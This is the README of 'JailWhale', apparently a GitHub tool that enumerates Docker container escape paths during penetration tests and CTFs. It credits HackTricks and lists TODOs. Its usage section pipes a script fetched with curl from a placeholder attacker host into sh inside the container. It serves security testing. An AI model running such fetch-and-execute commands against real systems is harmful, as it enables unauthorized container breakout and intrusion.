 # JailWhale

Docker escape enumeration tool to be used when you end up in a docker container during a penetration test. I tried to minimize the dependencies, so a common linux-based system with `sh` should be able to run JailWhale. Further checks and methods to be added, when I encounter new techniques in CTFs.

### Usage

```bash
# On your host
python -m http.server 8080
# In the container
curl http://<YOUR_IP>:8080/JailWhale.sh | sh
```

### Sample Output

<img src="doc/JailWhale.png">

### TODO

* Display container info (container id, hostname etc.)
* More CVE-checks
* More hints on exploiting capabilities

### Credits
Much love to https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout for documenting various techniques
